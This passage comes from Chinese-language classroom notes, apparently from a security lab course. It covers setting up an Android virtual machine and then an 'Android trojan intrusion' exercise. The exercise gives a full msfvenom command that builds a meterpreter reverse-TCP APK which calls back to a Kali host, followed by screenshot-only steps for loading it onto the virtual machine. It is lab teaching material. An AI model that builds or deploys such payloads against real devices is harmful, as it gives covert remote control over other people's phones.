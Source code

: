    ```

   <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802101935701.png" alt="image-20230802101935701" style="zoom:50%;" />

   重启虚拟机

9. 自动进入图形化操作界面

   此界面选择第二个选项

   <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802103154636.png" alt="image-20230802103154636" style="zoom:80%;" />

10. 成功创建安卓虚拟机

    <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802103215895.png" alt="image-20230802103215895" style="zoom:50%;" />





# 安卓木马入侵

## 生成安卓木马

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.191.131 LPORT=4444 R>zc.apk
```

## 安卓虚拟机下载木马

* 由于虚拟机无法使用浏览器下载，可以通过终端命令进行下载

  ![image-20230802114352939](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802114352939.png)

  在home目录下kali已经生成了zc.apk木马程序

* 在文件中点击显示内部存储可以看到还有19G的内存可供使用

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802134812791.png" alt="image-20230802134812791" style="zoom: 50%;" />

* 打开Android的终端模拟器

  ping下kali看是否可以通信

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802135217656.png" alt="image-20230802135217656"  />

  无法连接网络

  ***安卓虚拟机存在bug，需重新配置一个新的网络适配器***

  ![image-20230802135436134](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802135436134.png)

* 此时可以与kali ping通

  ![image-20230802135552560](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802135552560.png)

```